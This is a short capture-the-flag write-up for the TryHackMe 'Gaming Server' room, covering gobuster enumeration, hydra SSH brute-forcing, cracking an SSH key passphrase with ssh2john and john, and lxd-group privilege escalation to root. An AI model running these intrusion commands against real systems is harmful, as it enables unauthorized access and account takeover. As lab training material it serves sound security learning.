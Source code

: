 # [Gaming Server](https://tryhackme.com/room/gamingserver) TryHackMe Room

`export IP=10.10.138.11`

Ports:
```
22 ssh
80 http
```

Checking the website, the source code for the home page makes mention of a person `john` who needs to clean-up the lorem-ipsum on it.

Running gobuster on it:
```
gobuster dir -t 64 -u $IP -w ~/wordlists/website_dir/directory-list-2.3-medium.txt -x .html,.php,.txt,.jpg,.png -o dir_med.txt
```
```
/uploads/
/robots.txt
/secret
```
Uploads contains some sort of wordlist for a potential password (hydra maybe?)
robots.txt simply points to uploads
And secret contains an ssh private key of the presumed user we found earlier

```
hydra -l john -P pot_passwords.txt -t 64 ssh://$IP
``` 
Results in no found passwords, so instead I focus on the ssh key. Trying to login as john results in it requesting a passphrase. 
I fire up ssh2john.py 

```
ssh2john.py id_rsa_john > ssh_john_hash
```
Followed by using the previously given password pot to crack the hash
```
john -wordlist=pot_passwords.txt ssh_john_hash
```
Which results in cracking the ssh passphrase!

Logging into the machine, we immediately get the user flag
Hunting through the machine with linpeas, I notice that we are part of the lxd/lxc group for which there is a known exploit.

Copying and running the commands as a simple script that I got from [this website](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)

We now have root access and can search for the flag!
